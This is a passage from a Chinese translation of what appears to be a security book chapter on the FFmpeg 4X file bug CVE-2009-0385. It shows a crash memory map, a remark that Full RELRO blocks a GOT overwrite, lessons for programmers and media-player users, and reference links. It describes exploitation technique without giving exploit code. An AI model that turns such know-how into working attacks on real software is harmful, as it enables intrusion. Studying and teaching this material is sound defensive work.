b7eee000-b7eef000 rw-p 00024000 08:01 148210     /lib/tls/i686/cmov/libm-2.9.so
b7efc000-b7efe000 rw-p b7efc000 00:00 0
b7efe000-b7eff000 r-xp b7efe000 00:00 0          [vdso]
b7eff000-b7f1b000 r-xp 00000000 08:01 130839     /lib/ld-2.9.so
b7f1b000-b7f1c000 r--p 0001b000 08:01 130839     /lib/ld-2.9.so
b7f1c000-b7f1d000 rw-p 0001c000 08:01 130839     /lib/ld-2.9.so
bfb07000-bfb1c000 rw-p bffeb000 00:00 0          [stack]
```

这次 FFmpeg 在尝试覆盖只读的 GOT 条目时崩溃（参见 GOT 在 `0855f000-08560000` 的 `r--p` 权限）。看来 Full RELRO 确实可以成功缓解 GOT 覆写。

# 4.4 经验教训

作为程序员：

+   不要混合不同的数据类型。

+   了解编译器自动执行的隐藏转换。这些隐式转换很微妙，会导致许多安全漏洞^([43])（也参见第 A.3 节）。

+   确保对 C 的类型转换有扎实的理解。

+   用户空间中并非所有 NULL 指针解引用都是简单的拒绝服务条件。其中一些确实是严重的漏洞，可能导致任意代码执行。

+   完整的 RELRO 有助于缓解 GOT 覆写利用技术。

作为媒体播放器的用户：

+   不要信任媒体文件扩展名（参见第 2.5 节）。

# 4.5 补遗

### 注意

*2009 年 1 月 28 日，星期三*

该漏洞已得到修复（图 4-9])] 该漏洞被分配了 CVE-2009-0385。



图 4-9. 从通知到发布 FFmpeg 修复版本的 FFmpeg 错误时间线

## 备注

^([37])

^([38])

^([39])

^([40])

^([41])

^([42])

^([43])

^([44])

* * *

^([37]) 请参阅[`wiki.multimedia.cx/index.php?title=YouTube`](http://wiki.multimedia.cx/index.php?title=YouTube)。

^([38]) 请参阅[`ffmpeg.org/download.html`](http://ffmpeg.org/download.html)。

^([39]) 请参阅[`www.trapkit.de/books/bhd/`](http://www.trapkit.de/books/bhd/)。

^([40]) 有关 4X 电影文件格式的详细描述可以在[`wiki.multimedia.cx/index.php?title=4xm_Format`](http://wiki.multimedia.cx/index.php?title=4xm_Format)找到。

^([41]) 请参阅[`www.trapkit.de/books/bhd/`](http://www.trapkit.de/books/bhd/)。

^([42]) 可以在[`git.videolan.org/?p=ffmpeg.git;a=commitdiff;h=0838cfdc8a10185604db5cd9d6bffad71279a0e8`](http://git.videolan.org/?p=ffmpeg.git;a=commitdiff;h=0838cfdc8a10185604db5cd9d6bffad71279a0e8)找到 FFmpeg 维护者提供的补丁。

^([43]) 关于类型转换和相关安全问题的更多信息，请参考 Mark Dowd, John McDonald 和 Justin Schuh 的《软件安全评估的艺术：识别和预防软件漏洞》（Indianapolis, IN: Addison-Wesley Professional, 2007）。还可以参考[`ptgmedia.pearsoncmg.com/images/0321444426/samplechapter/Dowd_ch06.pdf`](http://ptgmedia.pearsoncmg.com/images/0321444426/samplechapter/Dowd_ch06.pdf)提供的样章。

^([44]) 描述 FFmpeg 漏洞详细信息的我的安全警告可以在[`www.trapkit.de/advisories/TKADV2009-004.txt`](http://www.trapkit.de/advisories/TKADV2009-004.txt)找到。
